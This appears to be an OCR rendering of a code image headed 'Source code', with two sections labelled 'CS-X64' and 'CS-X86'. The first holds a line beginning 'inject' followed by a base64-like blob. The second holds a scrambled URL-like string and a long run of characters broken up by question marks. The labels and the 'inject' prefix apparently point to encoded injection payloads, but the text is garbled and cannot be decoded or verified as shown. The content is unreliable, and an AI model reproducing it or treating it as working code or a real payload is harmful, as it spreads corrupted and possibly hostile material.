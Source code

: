 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

teheh36???|2,9;???6,J;???10,?M;14?,@;???1??8,?8;22???,n;?2????6,w;3????0,O;?34,k????;38,F???;?42,?I;??46,??P;????50???,d;5?4,H;????5???8,m???;?6????2,?K;66,????O;??70,j??;74???,N;7??8,,??;8???2,2;?86,5?;9????0,D??;9????4,I;9?8,,;1??02,s??;1??06,.;?110,a??;11???4????,m;11????8????,?r;1?22??,v??;12????6???,I;1????30,N;???13????4,???P?;138,????U;142????,u;|G?L?u9YX4???J9???KZM?oPp??@Eqn8??hG???En?S3Hw????p?LmOF7?Gko????jQ??F1Dk?I??gE???RP2zy?d?XWRHD???pvmy?ZvK?Y,??PO8?E???RjkF??1NF????M3,xf???i2???A?It5C???dmD5e???LIT???2N,ze?OsCr???y.ikf???a??RD??A??mHFbr???tIKv???sruI0???a????JN.????wWP5??xlUCO??=uryterx
